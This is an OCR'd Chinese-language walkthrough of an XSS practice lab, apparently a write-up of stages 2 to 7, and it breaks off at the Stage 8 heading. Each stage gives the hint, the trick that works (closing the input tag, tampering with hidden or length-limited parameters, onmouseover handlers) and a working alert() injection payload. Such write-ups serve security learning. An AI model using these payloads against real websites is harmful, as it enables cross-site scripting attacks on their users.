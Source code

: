`Hint: close the current tag and add SCRIPT tag...`

输出是在 input 标签中的 value 里面, 先闭合掉再注入代码.

这题也能用 onmouseover 提交, 注意引号.

`"><svg/onload=alert(document.domain)>`

`1 onmouseover="alert(document.domain)`

## Stage 3

`Hint: The input in text box is properly escaped.`

p1 被过滤了, 抓包更改下 p2 就行.

`<svg/onload=alert(document.domain)>`

## Stage 4

`Hint: invisible input field`

查看源代码, 有个 hackme 参数, 抓包更改即可.

`<svg/onload=alert(document.domain)>`

## Stage 5

`Hint: length limited text box`

跟 `Stage 2` 一样.

审查元素更改 maxlength 或者抓包修改参数.

`"><svg/onload=alert(document.domain)>`

`1 onmouseover="alert(document.domain)`

## Stage 6

`Hint: event handler attributes`

尖括号被过滤了, 那就用 onmouseover.

还是要注意引号的闭合.

`" onmouseover="alert(document.domain)`

## Stage 7

`Hint: nearly the same... but a bit more tricky.`

这题跟上一题差不多, 不过参数间用的不是双引号, 直接就是空格.

`1 onmouseover=alert(document.domain)`

## Stage 8
